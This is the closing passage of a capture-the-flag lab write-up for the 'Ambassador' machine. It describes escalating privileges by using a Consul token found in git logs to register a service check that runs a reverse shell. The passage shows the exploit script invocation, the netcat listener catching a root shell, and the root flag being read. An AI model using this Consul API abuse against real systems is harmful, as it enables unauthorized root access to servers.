 The consul documentation outlines the service check register API here: [Service - Agent - HTTP API | Consul | HashiCorp Developer](https://developer.hashicorp.com/consul/api-docs/agent/service#check)

Basically, given our consul token we obtained via git, we can register a service check on the consul agent that will run a periodic script.  In this case, we run a reverse shell connecting back out to our locally running netcat instance.

Let's try it out:

```bash
python3 consule_rce.py --lhost 10.10.14.48 --lport 3322 --rhost 127.0.0.1 --rport 8500 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener

```

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.183] 60742
bash: cannot set terminal process group (3858): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
db59b71542a934db27b28462577febcd
```

As expected, the consul agent, running as root, spawns a shell connecting back to my listening netcat instance giving me a root shell.

And with that, we have the root flag! Woo!

## Conclusion

The most difficult part for this challenge was the privilege escalation -- luckily consul seemed like the first (and only?) obvious process running as root that could be exploitable -- so it was the clear first choice for investigating privesc.   Uncovering the bash script was easy, but I stumbled a little before finding the git logs to get the token I could use with the API.  After this, registering a "service" to give me a reverse shell was quite easy.

A fun VM, but perhaps easier than I expected for Medium difficulty.  I'm interested to see how challenging the next one is.  I had not thought to find and check the logs of github repositories on compromised machines before, so this has been added to my arsenal of things to look out for and enumerate.

The temptation often is to break out LinPEAS and just scan, but getting a 'feel' for a server -- what does it appear to be used for? what story does it tell? and what kind of things should I be looking for? -- and enumerating on a case by case basis seems to be a nicer way to narrow down the possibilities without being overwhelmed by all the potentials of enumerating many things at once.

